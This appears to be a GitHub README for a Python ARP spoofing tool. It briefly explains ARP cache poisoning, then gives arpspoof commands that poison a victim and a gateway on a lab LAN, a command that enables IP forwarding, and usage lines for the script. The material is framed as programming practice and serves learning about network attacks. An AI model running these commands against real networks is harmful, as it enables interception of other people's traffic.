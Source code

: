 # ARP Spoofer

ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends an ARP request to a device on a local area network, associating its MAC address with the IP addresses of other devices. 
Most likely this includes the default router or gateway, causing any traffic from the local network meant for it to be sent to the attacker instead.

There are many existing tools, like `arpspoof` that can do this.

From the hacking machine to the victim machine:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.75 192.168.122.1
```

and to the router:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.1 192.168.122.75
```

and setting enabling forward (not persistent) on the hacking machine:

```shell
$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

And programming such an ARP Spoofer is excellent practice.

## Requirements

* Root access
* Python 3
* Scapy

## Usage

```shell
usage: arp_spoofer.py [-h] [-t TARGET_IP] [-s SPOOF_IP]
```

Example:

```shell
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```